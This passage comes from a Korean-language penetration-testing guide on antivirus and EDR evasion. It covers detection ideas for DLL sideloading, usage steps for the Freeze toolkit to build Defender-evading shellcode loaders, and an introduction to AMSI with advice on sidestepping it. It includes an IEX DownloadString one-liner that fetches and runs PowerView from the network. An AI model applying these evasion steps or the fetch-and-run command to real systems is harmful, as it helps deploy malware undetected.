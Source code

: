 Detection/defense ideas:
- Monitor LOLBins (e.g., rundll32.exe) loading signed DLLs from non-system paths, followed by loading non-KnownDLLs with the same base name from that directory
- Alert on process/module chains like: `rundll32.exe` → non-system `keyiso.dll` → `NCRYPTPROV.dll` under user-writable paths
- Enforce code integrity policies (WDAC/AppLocker) and deny write+execute in application directories

## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze는 suspended processes, direct syscalls, alternative execution methods을 사용해 EDRs를 우회하기 위한 payload toolkit입니다`

Freeze를 사용해 shellcode를 은밀하게 로드하고 실행할 수 있습니다.
```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```
<figure><img src="../images/freeze_demo_hacktricks.gif" alt=""><figcaption></figcaption></figure>

> [!TIP]
> 우회는 단순한 쫓고 쫓기는 게임입니다. 오늘 통하는 방법이 내일에는 탐지될 수 있으므로 한 가지 도구에만 의존하지 말고, 가능하면 여러 우회 기법을 연쇄적으로 사용하세요.

## AMSI (Anti-Malware Scan Interface)

AMSI는 "[fileless malware](https://en.wikipedia.org/wiki/Fileless_malware)"를 방지하기 위해 만들어졌다. 초기에는 AV가 **디스크상의 파일**만 스캔할 수 있었기 때문에, 페이로드를 **메모리에서 직접** 실행할 수 있다면 AV는 이를 막을 수 없었다 — 충분한 가시성이 없었기 때문이다.

AMSI 기능은 Windows의 다음 구성요소에 통합되어 있다.

- User Account Control, or UAC (EXE, COM, MSI 또는 ActiveX 설치의 권한 상승)
- PowerShell (스크립트, 대화형 사용 및 동적 코드 평가)
- Windows Script Host (wscript.exe 및 cscript.exe)
- JavaScript 및 VBScript
- Office VBA 매크로

AMSI는 스크립트 내용을 암호화/난독화되지 않은 형태로 노출하여 안티바이러스가 스크립트 동작을 검사할 수 있게 한다.

`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')`를 실행하면 Windows Defender에서 다음과 같은 경고가 발생한다.

<figure><img src="../images/image (1135).png" alt=""><figcaption></figcaption></figure>

앞에 `amsi:`가 붙고 그 뒤에 스크립트를 실행한 실행 파일의 경로(이 경우 powershell.exe)가 오는 것을 확인할 수 있다.

파일을 디스크에 기록하지 않았음에도 AMSI 때문에 메모리 상에서 탐지되었다.

또한, **.NET 4.8**부터는 C# 코드도 AMSI를 통해 실행된다. 이는 `Assembly.Load(byte[])`와 같은 메모리 로드에도 영향을 준다. 따라서 AMSI를 회피하려면 메모리 실행을 위해 .NET의 낮은 버전(예: 4.7.2 이하) 사용을 권장한다.

AMSI를 우회하는 방법은 몇 가지가 있다:
